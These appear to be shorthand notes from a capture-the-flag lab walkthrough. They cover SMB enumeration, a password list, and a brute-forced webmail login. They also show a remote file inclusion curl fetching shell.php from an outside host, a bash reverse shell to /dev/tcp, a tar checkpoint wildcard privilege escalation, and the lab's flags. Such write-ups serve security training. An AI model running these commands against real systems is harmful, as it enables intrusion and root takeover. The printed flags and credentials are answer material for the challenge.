

List connection
> smbclient -L 10.10.166.255

Conect to anonymous
> smbclient //10.10.166.255/anonymous
Log1.txt contents: (log2 and log3 were empty)
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
DIRBUSTER found /squirrelmail/
brute force with burpsuite for username: milesdysonuser
Password: cyborg007haloterminator
Can see SMB password reset - milesdyson : )s{A&2Z=F^n_E.B`
Add features to beta CMS /45kra24zxs28v3yd
curl http://10.10.128.148/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.17.108:9090/shell.php
listener on port 4444
my simple php reverse:
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
User Flag:- 7ce5c2109a40f958099283600a9ae807
Exploiting /bin/bash -p subshell and checkpoints (owned by root)- we do this inside /var/www/html BECAUSE
- when cat backup.sh it runs out of that directory
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
- - first line is creating a .sh script with the code
- - turning it into an executable at a checkpoint
- - setting where the checkpoint is (position 1)
rootflag- 3f0372db24753accc7179a282cd6a949